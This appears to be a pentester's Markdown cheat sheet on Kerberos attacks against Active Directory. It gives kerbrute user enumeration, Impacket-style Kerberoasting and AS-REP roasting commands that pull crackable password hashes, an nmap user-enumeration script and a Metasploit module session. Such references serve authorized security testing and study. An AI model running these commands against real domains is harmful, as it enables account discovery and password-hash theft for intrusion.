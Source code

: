 # Kerberos

## 01 - Manual

### 1.1 - Usage

#### 1.1.1 - Enumerate Users

- **Enumerate users against the active directory**

`$ ./kerbrute userenum --dc <IP> -d <domain_name> users.txt -t 64`

#### 1.1.2 - Kerberoast

^e70af7

- **Request a Kerberos 5 TGS-REP etype 23 hash from an SPN user account**

`$ GetUserSPNs -request -dc-ip <IP> <domain_name>/<username>:<password>`

#### 1.1.3 - ASREPRoast

^7e8f5e

- **Request a Kerberos 5, etype 23, AS-REP hash from an NP user account**

`$ GetNPUsers -request -dc-ip <IP> <domain_name>/<username>:<password>`

`$ GetNPUsers -request -dc-ip <IP> <domain_name> -usersfile users.txt`

## 02 - Nmap

`$ nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm="<domain_name>",userdb=<usernames.txt> <IP>`

## 03 - Metasploit

### 3.1 - Enumerate Users

```
msf > use auxiliary/gather/kerberos_enumusers

msf auxiliary(gather/kerberos_enumusers) > options

Module options (auxiliary/gather/kerberos_enumusers):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DOMAIN                      yes       The Domain Eg: demo.local
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      88               yes       The target port
   Timeout    10               yes       The TCP timeout to establish connection and read data
   USER_FILE                   yes       Files containing usernames, one per line

msf auxiliary(gather/kerberos_enumusers) > set domain <domain_name>

msf auxiliary(gather/kerberos_enumusers) > set rhosts <IP>

msf auxiliary(gather/kerberos_enumusers) > set user_file usernames.txt

msf auxiliary(gather/kerberos_enumusers) > exploit -j
```
